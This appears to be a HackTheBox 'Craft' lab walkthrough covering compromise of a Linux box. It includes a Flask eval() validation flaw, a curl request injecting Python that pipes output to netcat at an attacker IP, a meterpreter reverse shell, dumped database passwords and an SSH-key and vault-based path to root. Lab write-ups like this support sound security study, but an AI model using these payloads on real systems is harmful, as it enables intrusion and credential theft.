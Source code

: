 # Craft - HackTheBox
## Linux - Medium

### Nmap
With `nmap` we get that ports 22 and 443 are open on the box. Checking 443/HTTPS, we get a webpage with links redirecting either to `api.craft.htb` or `gogs.craft.htb`. We add those to `/etc/hosts`.

### gogs.craft.htb
This is a gogs repository (a github clone basically). We have access to one repo, `craft-api` containing the code for a Flask app implementing a REST API for beers. 

Looking at the issues, we see one for input validation on POST request implementing the dangerous code:
```python
if eval('%s > 1' % request.json['abv']):
  return "ABV must be a decimal value less than 1", 400
```
The `eval` in the script gives us RCE in the POST parameter `abv`. Unfortunately, we need to be authenticated to do POST requests. The API uses JWT tokens for auth. 

Looking at the history of commits, we see one commit by user `dinesh` pushing a test scripts with his credentials hardcoded: `dinesh:4aUh0A8PbVJxgd`.

### api.craft.htb
This is a Swagger endpoint (a GUI for REST API). We see the different requests that can be done. An interesting one is `/auth/login`, which asks us for credentials. We enter the one for `dinesh` and get accepted. The API responds with a JWT token, that can supposedly be used to make POST requests.

### RCE and reverse shell
We use this JWT to perform an RCE with curl:
```bash
curl -k -X POST "https://api.craft.htb/api/brew/" -H  "accept: application/json" -H  "Content-Type: application/json" -H 'X-Craft-API-Token: <JWT TOKEN>' -d "{  \"id\": 0,  \"brewer\": \"string\",  \"name\": \"string\",  \"style\": \"string\",  \"abv\": \"__import__('os').system('ls | nc 10.10.15.250 9001')\"}"
```
We get a response with `netcat` on port 9001. I then proceeded to upload a meterpreter reverse tcp shell (hard to get other simpler reverse shells...)

### MySQL credentials
Our shell is in a docker container running the flask app. We see a python script `dbtest.py` running a test query on a MySQL server. We change this query to 
```sql
SELECT * FROM user
```
and get the response
```
[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]
```

### SSH
We try these credentials on gogs.craft.htb, and user `gilfoyle` works. This user has a private repository `craft-infra` showing various config files. There is an `.ssh` folder containing a private and public ssh key for `gilfoyle@craft.htb`.

Using the private key to ssh in the box `ssh -i id_rsa gilfoyle@craft.htb`, we are prompted for a passphrase for the key. The password `ZEU3N8WNM2rh4T` gotten through my MySQL works. And we are in the main host `craft.htb`.

### PrivEsc
Looking around the box, we don't see anything that stands out, except for files referencing the `vault` application. Googling for it, we see that it is a key/secret/auth management system. Looking around the documentation, I find that `vault` can be used to create a ssh login system using OTP.

The magic command is 
```bash
vault ssh root@10.10.10.110
```
which gives us an OTP and then prompts for this same OTP. We enter it and boom! We're in a shell as root!
